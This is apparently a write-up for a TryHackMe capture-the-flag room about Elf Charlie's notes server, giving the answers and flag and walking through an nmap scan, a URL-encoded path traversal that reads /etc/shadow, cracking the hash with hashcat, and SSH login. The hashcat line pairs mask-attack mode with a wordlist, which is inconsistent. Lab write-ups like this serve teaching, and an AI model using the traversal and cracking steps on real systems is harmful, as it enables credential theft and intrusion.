



## Introduction

> Elf Charlie likes to make notes and store them on his server. Are you able to take advantage of this functionality and crack his password? 

> [Read the supporting materials here](./Supporting_Doc.html).

## Questions

> 1) What is Charlie going to book a holiday to?

td:lr Answer: **Hawaii**

> 2) Read /etc/shadow and crack Charlies password.

td:lr Answer: **password1**

> 3) What is flag1.txt?

td:lr Answer: **THM{4ea2adf842713ad3ce0c1f05ef12256d}**

===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we can do a nmap scan for TCP ports under 1000:

`nmap <ip> -T4` -- reveals open ports 22, 80  
open web browser --`<ip>`  
On webpage, under Note 3, will see the first answer: **Hawaii**

Check page source for more information on where the content of this webpage comes from:  
`view Page Source`  

There's a function that shows how the notes on webpage are being access:  
`<ip>/get-file/views%2Fnotes%2Fnote1.txt`  --reveals note1.txt content  
`<ip>/get-file/%2Fetc%2Fshadow` --reveals content of /etc/shadow

Charlie's password hash: **$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.**

Crack it using hashcat:  
`echo '$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.' > hash.txt`
`hashcat -a 3 -m 1800 hash.txt rockyou.txt`

We get Charlie's password: **password1**

Use SSH to log in as Charlie:  
`ssh charlie@<ip>`  -- password: password1  
`cat flag1.txt`  
Will get our answer: **THM{4ea2adf842713ad3ce0c1f05ef12256d}**

